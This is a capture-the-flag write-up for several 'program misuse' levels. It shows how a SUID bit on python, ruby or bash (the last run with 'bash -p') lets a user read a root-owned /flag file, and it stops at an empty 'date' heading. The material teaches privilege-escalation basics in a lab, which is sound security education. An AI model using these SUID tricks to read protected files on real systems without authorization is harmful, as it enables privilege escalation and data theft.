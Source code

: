 > I just set the SUID bit on /usr/bin/python.\
> Try to use it to read the flag!

Python is a scripting language. As such, we can use the following script to read the `/flag`.

```python title="babysuid42.py"
with open("/flag", "r") as flag:
    print(flag.read())
```

We have to use the `python` utility to execute the script.

```
hacker@program-misuse~level42:~$ python babysuid42.py
```

&nbsp;

## ruby

> I just set the SUID bit on /usr/bin/ruby.\
> Try to use it to read the flag!

Ruby is a scripting language. As such, we can use the following script to read the `/flag`.

```ruby title="babysuid43.rb"
fileObject = File.open("/flag","r");
print(fileObject.read());
fileObject.close();
```

We have to use the `ruby` utility to execute the script.

```
hacker@program-misuse~level43:~$ ruby babysuid43.rb 
```

&nbsp;

## bash

> I just set the SUID bit on /usr/bin/bash.\
> Try to use it to read the flag!

Bash is a scripting language. As such, we can use the following script to read the `/flag`.

```bash title="babysuid44.sh"
cat /flag
```

We have to use the `bash` along with the `-p` option to execute the script.

```
hacker@program-misuse~level44:~$ bash -p babysuid44.sh 
```

&nbsp;

## date
